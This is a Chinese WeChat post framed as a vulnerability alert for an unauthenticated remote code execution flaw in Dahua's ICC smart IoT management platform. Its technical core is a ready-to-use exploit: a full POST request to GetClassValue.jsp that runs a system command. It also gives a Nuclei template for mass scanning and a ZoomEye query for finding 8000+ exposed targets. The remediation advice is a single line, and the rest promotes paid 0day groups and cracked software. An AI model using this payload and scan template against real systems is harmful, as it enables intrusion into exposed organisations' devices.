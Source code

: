 #  大华智能物联综合管理平台RCE远程代码执行漏洞-影响资产8000+| 漏洞预警   
原创 漏洞复现Tony  渗透安全HackTwo   2025-01-03 16:00  
  
###   
#   
0x01 产品简介  
        大华智能物联综合管理平台，作为浙江大华技术股份有限公司推出的一款集成了多项业务管理功能的平台软件，该平台主要面向智能园区、商业综合体等多种应用场景，旨在提供一个全面、高效的解决方案，为客户提供一套集成、高效、开放、灵活可扩展、可定制的平台软件产品。功能全面、灵活可扩展、安全可靠的智能物联基础软件平台，能够满足企业在不同场景下的各种业务需求，助力企业实现数智化转型升级。利用zoomeye测绘引擎搜索发现影响资产8000+。  
  
**POC在末尾下载**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq6ia157stMOK8JZ3ZPhLKTd4LNRob8h6POKrOXEeOb4EArpCia4hr3DTkjDl9dJyNqyRhSSgeSL6t3A/640?wx_fmt=png&from=appmsg "")  
  
**本周星球新增1day/0day漏洞-公告及声明******  
  
> 朗速ERP UEditorAjaxApi.ashx 存在SSRF漏洞  
> officeweb365 弱口令漏洞  
> Cleo 远程代码执行漏洞  
> 内训宝企业培训平台 uploadscormRCE漏洞  
> 明源地产ERP VisitorWeb SQL注入漏洞  
> WordPress Crypto 插件 身份认证绕过漏洞  
> unibox checkstatus_ping.php 命令执行漏洞  
> 博友校园务收费管理平台 getstudent 信息泄露  
> 急诊综合管理平台 ServicePage任意文件读取漏洞  
> 校盈家财务收费管理平台 getstudent 信息泄露  
> W&Jsoft-D-Security数据仿泄露系统(DLP)任意文件读取漏洞  
> 商业管理系统 Common.ashx 存在文件上传致RCE漏洞  
> TMS运输管理系统 GetDataBase存在信息泄露漏洞  
> 致翔 OA uploaddisk 存在任意文件上传漏洞  
> Apache Traffic Control 存在 SQL 注入漏洞  
> 大华智能物联综合管理平台GetClassValue远程代码执行漏洞  
> 方正畅享全媒体新闻采编系统 imageProxy任意文件读取漏洞  
> 时空物流运输管理系统SysData存在敏感信息泄露漏洞  
> 虹安信息数据泄露防护平台initUserReg存在命令执行漏洞  
> 蓝凌EKP系统fsscCommonPortlet.do存在未授权SQL注入漏洞  
> 朗速ERP FileUploadApi.ashx 存在任意文件上传致RCE漏洞  
> 一卡通系统 AddPkFreePartyMFCar 存在SQL注入漏洞  
> 福建科立讯通信有限公司指挥调度send_fax.php存在命令执行漏洞  
> Tiandy-Easy7弱口令漏洞  
> 卓软计量业务管理平台image存在任意文件读取漏洞  
> Wordpress Tutor LMS插件插件存在SQL注入漏洞  
> 虹安Heimdall DLP数据泄漏防护系统 pushSetupSQL注入漏洞  
> 科汛网校KesionEDU CheckOrder SQL注入漏洞  
> 企企通互联网解决方案系统srm getuserinfo 存在信息泄露漏洞  
> 数字化智能中台系统login存在SQL注入漏洞  
> 博斯外贸管理软件V6.0 logined.jsp存在SQL注入漏洞  
> 快云服务器小助手 getdetail 存在任意文件文件读取漏洞  
> 赛诸葛数字化智能中台系统 login 存在SQL注入漏洞  
> 网神SecFox运维安全管理与审计系统 FastJson反序列化RCE漏洞  
> 用友-友数聚科技CPAS审计管理系统V4 SQL注入漏洞  
> 西联软件移动门店管理系统 StreamToFile 存在文件上传致RCE漏洞  
> 科汛网校KesionEDU CheckOrder SQL注入漏洞  
> 博斯外贸管理软件V6.0 loginednew.jsp 存在SQL注入漏洞  
> 网上阅卷系统存在弱口令漏洞  
> 卓软计量业务管理平台 image.ashx 任意文件读取漏洞  
> WordPress File Upload 插件存在任意文件读取漏洞  
> 当虹科技 Arcvideo Live存在任意文件上传漏洞  
> **声明：**  
> 请自行搭建环境进行漏洞测试，该公众号或作者星球分享的工具、项目、漏洞仅供安全研究与学习之用请勿用于非法行为，如用于其他用途，由使用者承担全部法律及连带责任，与作者和本公众号无关。  
  
  
**TIPS:**  
**末尾领取资料及福利-批量检测脚本在末尾**  
  
0x02 漏洞描述    大华智能物联综合管理平台 GetClassValue.jsp 接口存在远程代码执行漏洞，未经身份验证的恶意攻击者可以利用该漏洞远程执行任意命令，获取系统权限。0x03 Zoomeye语法app="大华ICC智能物联综合管理平台"0x04 漏洞复现request packet（NucleiPOC在末尾）POST /evo-apigw/admin/API/Developer/GetClassValue.jsp HTTP/1.1Host: User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36Accept-Encoding: gzip, deflate, brAccept-Language: zh-CN,zh;q=0.9Connection: closeContent-Type: application/jsonContent-Length: 207      {          "data": {              "clazzName": "com.dahua.admin.util.RuntimeUtil",              "methodName": "syncexecReturnInputStream",              "fieldName": ["id"]          }      }Nuclei批量检测POC（末尾有Nuclei批量检测POC）‍‍‍0x05 修复建议关闭互联网暴露面或接口设置访问权限，建议升级到最新版。0x06 内部VIP星球介绍-V1.3        如果你想学习更多渗透挖洞技术/技巧欢迎加入我们内部星球可获得内部工具字典和享受内部，每周一至五周更新1day/0day漏洞刷分上分(2025POC更新至3000+)，包含网上一些付费工具BurpSuite漏洞检测插件，Fofa高级会员，CTFshow等各种账号会员共享。详情直接点击下方链接进入了解，觉得价格高的师傅可后台回复" 星球 "有优惠券名额有限先到先得！后续资源会更丰富在加入还是低价！（价格随资源人数进行上涨早加入早享受）👉点击了解加入-->>内部VIP知识星球福利介绍V1.3版本-1day/0day漏洞及内部资源每日更新Nuclei-YamlPocid: dahua-GetClassValue-RCEinfo:  name: dahua-GetClassValue-RCE  author: HK  severity: high  metadata:    fofa-query: app="dahua-智能物联综合管理平台"http:  - raw:    - |      POST /evo-apigw/admin/API/Developer/GetClassValue.jsp HTTP/1.1      Host: {{Hostname}}      Content-Type: application/json      Content-Length: 222            {          "data": {              "clazzName": "com.dahua.admin.util.RuntimeUtil",              "methodName": "syncexecReturnInputStream",              "fieldName": ["id"]          }      }    matchers-condition: and    matchers:      - type: word        words:        - "uid=0"      - type: status        status:        - 200  
  
**结尾**  
  
# 免责声明  
  
  
# 获取方法  
  
  
回复“**app**  
" 获取  app渗透和app抓包教程  
  
回复“**渗透字典**" 获取 针对一些字典重新划分处理，收集了几个密码管理字典生成器用来扩展更多字典的仓库。  
  
回复“**书籍**" 获取 网络安全相关经典书籍电子版pdf  
  
压缩包解压密码：HackTwo  
  
  
  
# 免责声明  
  
  
        
文章中的案例或工具仅面向合法授权的企业安全建设行为，如您需要测试内容的可用性，请自行搭建靶机环境，勿用于非法行为。如  
用于其他用途，由使用者承担全部法律及连带责任，与作者和本公众号无关。  
本项目所有收录的poc均为漏洞的理论判断，不存在漏洞利用过程，不会对目标发起真实攻击和漏洞利用。文中所涉及的技术、思路和工具仅供以安全为目的的学习交流使用。  
如您在使用本工具或阅读文章的过程中存在任何非法行为，您需自行承担相应后果，我们将不承担任何法律及连带责任。  
本工具或文章或来源于网络，若有侵权请联系作者删除，请在24小时内删除，请勿用于商业行为，自行查验是否具有后门，切勿相信软件内的广告！  
  
  
  
# 往期推荐  
  
  
**1. 内部VIP知识星球福利介绍V1.3版本**  
  
**2. 最新BurpSuite2024.11.2专业（稳定版）**  
  
**3. 最新Nessus2024.12.04版本主机漏洞扫描下载**  
  
[4. 最新xray1.9.11高级版下载Windows/Linux](http://mp.weixin.qq.com/s?__biz=Mzg3ODE2MjkxMQ==&mid=2247483882&idx=1&sn=e1bf597eb73ee7881ae132cc99ac0c8e&chksm=cf16a75af8612e4c73eda9f52218ccfc6de72725eb37aff59e181435de095b71e653b446c521&scene=21#wechat_redirect)  
  
  
[5. 最新HCL AppScan Standard 10.4.128273破解版下载](http://mp.weixin.qq.com/s?__biz=Mzg3ODE2MjkxMQ==&mid=2247483850&idx=1&sn=8fad4ed1e05443dce28f6ee6d89ab920&chksm=cf16a77af8612e6c688c55f7a899fe123b0f71735eb15988321d0bd4d14363690c96537bc1fb&scene=21#wechat_redirect)  
  
  
  
###### 渗透安全HackTwo  
  
  
微信号：关注公众号获取  
  
后台回复星球加入：  
知识星球  
  
扫码关注 了解更多  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq6qFFAxdkV2tgPPqL76yNTw38UJ9vr5QJQE48ff1I4Gichw7adAcHQx8ePBPmwvouAhs4ArJFVdKkw/640?wx_fmt=png "二维码")  
  
  
  
喜欢的朋友可以点赞转发支持一下  
  
  
